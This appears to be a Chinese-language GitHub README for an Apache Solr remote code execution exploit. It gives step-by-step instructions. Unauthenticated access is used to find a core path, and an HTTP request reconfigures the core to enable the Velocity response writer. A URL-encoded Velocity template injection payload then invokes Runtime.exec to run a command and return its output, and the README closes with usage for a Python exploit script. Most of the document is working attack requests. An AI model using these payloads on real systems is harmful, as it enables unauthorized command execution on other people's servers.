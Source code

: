 # Apache Solr rce

### 复现过程

step1:
通过Solr未授权访问，访问Core Admin，获取Path

![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031164421.png)

step2:
修改配置
```
POST /solr/(第一步获取到的Path)/config HTTP/1.1
Host: ip:8983
User-Agent: xxx
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165408.png)

step3:
执行命令
```
GET /solr/(第一步获取到的Path)/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xxx:8983
User-Agent: xxx
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165755.png)

### python exp

使用方法：
python solr_rce.py url "command"
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031170416.png)
